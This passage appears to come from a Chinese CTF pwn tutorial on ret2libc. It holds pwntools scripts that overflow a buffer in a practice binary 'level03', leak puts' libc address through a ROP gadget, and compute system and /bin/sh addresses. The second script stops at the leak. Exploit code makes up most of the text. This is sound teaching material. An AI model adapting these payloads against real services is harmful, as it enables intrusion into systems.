 ![image-20220318201135271](自救指南.assets/image-20220318201135271.png)

有了偏移量就可以直接计算了

```python
from pwn import*
o = process("./level03")
elf = ELF("./level03")

pop_rdi = 0x00000000004005d3
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
payload = 'a'*0x18	# 填充buf和rbp
payload += p64(pop_rdi) + p64(puts_got)	# puts@got作为puts函数的参数
payload += p64(puts_plt)	# 执行puts函数将puts的真实地址打印出来
o.recv()	# 需要将输出缓冲中的东西都读取出来, 要不然就会影响下面puts_addr的读出
o.sendline(payload)
puts_addr = u64((o.recv(6)).ljust(8, '\x00'))
print hex(puts_addr)
libc_base = puts_addr - 0x6f6a0	# 计算libc基地址
sys_addr = libc_base + 	0x453a0	# 计算system地址
bin_sh = libc_base + 0x18ce17	# 计算/bin/sh地址
o.interactive()
```

但是这种方法有个缺点就是如果libc匹配的很对就需要一条一条试

-   第二种, 题目给定了libc文件

那么就可以用pwntools内置ELF模块对libc进行解析, 然后来计算

```python
from pwn import*
o = process("./level03")
elf = ELF("./level03")
libc = ELF("./libc6_2.23-0ubuntu11.2_amd64")	# 解析libc
pop_rdi = 0x00000000004005d3
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
payload = 'a'*0x18	# 填充buf和rbp
payload += p64(pop_rdi) + p64(puts_got)	# puts@got作为puts函数的参数
payload += p64(puts_plt)	# 执行puts函数将puts的真实地址打印出来
o.recv()	# 需要将输出缓冲中的东西都读取出来, 要不然就会影响下面puts_addr的读出
o.sendline(payload)
puts_addr = u64((o.recv(6)).ljust(8, '\x00'))
```